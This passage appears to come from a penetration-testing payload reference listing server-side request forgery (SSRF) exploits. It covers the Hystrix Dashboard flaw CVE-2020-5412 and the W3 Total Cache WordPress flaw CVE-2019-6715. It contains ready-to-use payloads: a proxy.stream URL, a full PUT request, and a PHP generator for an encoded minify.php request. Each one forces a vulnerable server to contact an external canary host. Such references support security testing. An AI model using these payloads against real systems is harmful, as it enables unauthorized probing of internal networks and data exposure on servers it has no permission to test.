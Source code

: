 <div id="hystrix"></div>

## Hystrix Dashboard

**Commonly bound ports: 80,443 (SSL),8080**

Spring Cloud Netflix, versions 2.2.x prior to 2.2.4, versions 2.1.x prior to 2.1.6.

**SSRF Canary: CVE-2020-5412**

```bash
/proxy.stream?origin=http://SSRF_CANARY/
```

<div id="w3"></div>

## W3 Total Cache

**Commonly bound ports: 80,443 (SSL)**

W3 Total Cache 0.9.2.6-0.9.3

**SSRF Canary: CVE-2019-6715**

This needs to be a PUT request:

```bash
PUT /wp-content/plugins/w3-total-cache/pub/sns.php HTTP/1.1
Host: {{Hostname}}
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.80 Safari/537.36
Content-Length: 124
Content-Type: application/x-www-form-urlencoded
Connection: close

{"Type":"SubscriptionConfirmation","Message":"","SubscribeURL":"https://SSRF_CANARY"}
```

**SSRF Canary**

The advisory for this vulnerability was released here: [W3 Total Cache SSRF vulnerability](https://klikki.fi/adv/w3_total_cache.html)

This PHP code will generate a payload for your SSRF Canary host (replace `url` with your canary host):

```php
<?php

$url='http://www.google.com';
$file=strtr(base64_encode(gzdeflate($url.'#https://ajax.googleapis.com')), '+/=', '-_');
$file=chop($file,'=');
$req='/wp-content/plugins/w3-total-cache/pub/minify.php?file='.$file.'.css';
echo($req);

?>
```
